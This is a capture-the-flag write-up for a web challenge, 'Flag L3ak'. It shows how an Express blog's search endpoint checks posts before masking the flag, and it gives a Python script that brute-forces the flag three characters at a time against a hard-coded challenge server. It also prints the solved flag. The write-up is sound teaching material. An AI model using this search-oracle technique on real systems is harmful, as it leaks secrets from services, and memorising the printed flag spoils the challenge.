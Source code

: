 ```yaml
---
title: Flag L3ak
type: writeup
date: 2025-07-14T21:45:51+03:00
description: Writeup for Flag L3ak [L3akCTF_2025s]
author: vikcoc
tags:
- web
draft: false
---
```

___

## Challenge Description

What's the name of this CTF? Yk what to do 😉

We are greeted by a blog page, with a search bar and a few posts.\
One post in particular, titled "Not the flag?" claims to have the flag hidden inside it.

## Intuition

Looking at the code we see it is an expressjs application, with public pages and 2 endpoints of interest:\
- `'/api/search'`
- `'/api/posts'`


Search is of particular interest for us because the lookup happens before the flag gets overwritten.
```javascript
    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));
```
Therefore we can use search to check if sequences are part of the flag.

## Solution

The solution is a brute force attack.
```python
import requests
import string

url = "http://34.134.162.213:17000/api/search"
flag = "L3AK{"

print("Start")
while True:

    found_char = False
    for char in string.printable:
        query = f"{flag[-2:]}{char}"
        body = {"query": query}
        response = requests.post(url, json=body)

        if response.status_code == 200 and "Not the flag?" in response.text:
            flag += char
            print(f"Partial flag: {flag}")
            found_char = True
            break
    
    if not found_char:
        break;

print(f"End")
```
A thing to keep in mind is that the query is only allowed to have 3 characters.
```javascript
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }
```

### Flag

`L3AK{L3ak1ng_th3_Fl4g??}`
